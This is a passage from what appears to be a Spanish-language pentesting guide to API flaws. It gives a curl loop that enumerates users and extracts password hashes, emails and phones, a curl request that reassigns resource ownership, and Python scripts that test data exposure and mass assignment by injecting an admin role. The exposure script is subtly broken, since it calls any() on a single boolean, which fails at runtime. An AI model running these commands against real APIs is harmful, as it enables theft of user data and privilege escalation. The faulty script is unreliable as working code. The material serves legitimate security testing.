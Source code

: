 ### Extracción de Información:
```bash
# Enumerar usuarios y extraer datos sensibles
for i in {1..100}; do
  curl -s /api/users/$i | jq '.password_hash, .email, .phone'
done
```

### Manipulación de Datos:
```bash
# Cambiar propietario de recursos
curl -X PUT /api/tasks/123 \
  -d '{"owner_id": 456, "created_date": "2020-01-01"}' \
  -H "Authorization: Bearer token"
```

---

## 🔧 **HERRAMIENTAS DE TESTING**

### Burp Suite:
- Interceptar respuestas y buscar campos sensibles
- Probar mass assignment añadiendo campos extras
- Análisis de diferencias entre roles

### Custom Scripts:
```python
import requests

# Test de exposición de datos
def test_data_exposure(token):
    response = requests.get('/api/profile', 
                          headers={'Authorization': f'Bearer {token}'})
    data = response.json()
    
    # Buscar campos sensibles
    sensitive_fields = ['password', 'hash', 'token', 'secret']
    for field in sensitive_fields:
        if any(field in str(data).lower()):
            print(f"⚠️ Campo sensible detectado: {field}")

# Test de mass assignment
def test_mass_assignment(token):
    malicious_data = {
        "name": "Normal Update",
        "role": "admin",  # Campo que no debería ser modificable
        "verified": True,
        "created_at": "2020-01-01"
    }
    
    response = requests.put('/api/profile', 
                           json=malicious_data,
                           headers={'Authorization': f'Bearer {token}'})
    
    if response.status_code == 200:
        print("⚠️ Mass assignment vulnerable")
```

---